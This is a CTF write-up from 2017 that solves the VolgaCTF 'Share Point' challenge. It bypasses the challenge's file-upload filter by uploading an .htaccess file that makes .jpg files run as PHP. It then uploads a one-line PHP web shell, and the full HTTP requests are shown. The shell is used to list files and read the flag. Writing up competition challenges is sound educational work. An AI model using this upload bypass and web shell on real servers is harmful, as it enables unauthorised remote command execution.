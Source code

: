 ```yaml
---
date: 2017-03-28
title: 'VolgaCTF - Share Point writeup'
template: post
slug: volgactf-share-point-writeup
categories:
 - CTF
tags:
 - CTF
---
```


```
Share Point

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru
```


The challenge begun by signing in to the control panel by simply entering random account details. Once logged in you had the ability to upload files and share them with an other user. Since the site only had one functionality, uploading files, I assumed the goal had to be to upload a web shell and find the flag on the file system.

Uploading files with a `.php` extension got rejected. I tried some tricks when trying to upload my `shell.php`:

* Chaning the Content Type to `image/jpeg`.
* Injecting null values in the filename `shell.php\00.gif`.
* Uploading a file with the magic headers of a gif file.

Next I tried to upload an `.htaccess` file with the following contents `AddType application/x-httpd-php .jpg`, this would cause `.jpg` files to executed as `.php` files, and it worked!

The following code snippet shows the HTTP POST request from Burp Suite when uploading the `.htaccess` file and the following `shell.php.jpg`. 
```
POST /upload.php HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://share-point.quals.2017.volgactf.ru/upload.php
Content-Length: 271
Content-Type: multipart/form-data; boundary=---------------------------1620217569904038223723611436
Cookie: PHPSESSID=gsl3b673of0kbvaav8am0vs690
Connection: close

-----------------------------1620217569904038223723611436
Content-Disposition: form-data; name="userFile"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .jpg

-----------------------------1620217569904038223723611436--
```


```
POST /upload.php HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://share-point.quals.2017.volgactf.ru/upload.php
Content-Length: 256
Content-Type: multipart/form-data; boundary=---------------------------5375118911646132755521388984
Cookie: PHPSESSID=gsl3b673of0kbvaav8am0vs690
Connection: close

-----------------------------5375118911646132755521388984
Content-Disposition: form-data; name="userFile"; filename="shell.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>

-----------------------------5375118911646132755521388984--
```

Once we have uploaded the shell, we can start looking for the flag on the file system.

```
http://share-point.quals.2017.volgactf.ru/files/Smacker1/shell.php.jpg?cmd=ls -lah

total 24K
drwxr-xr-x   2 www-data www-data 4.0K Mar 27 00:05 .
drwxr-xr-x 252 www-data www-data  12K Mar 27 00:04 ..
-rw-r--r--   1 www-data www-data   37 Mar 27 00:04 .htaccess
-rw-r--r--   1 www-data www-data   31 Mar 27 00:05 shell.php.jpg
```

By pure luck I checked the `/opt/` folder and found `flag.txt`. Otherwise I would have simply searched for "flag".

```
http://share-point.quals.2017.volgactf.ru/files/shell.php.jpg?cmd=cat /opt/flag.txt
VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}
```




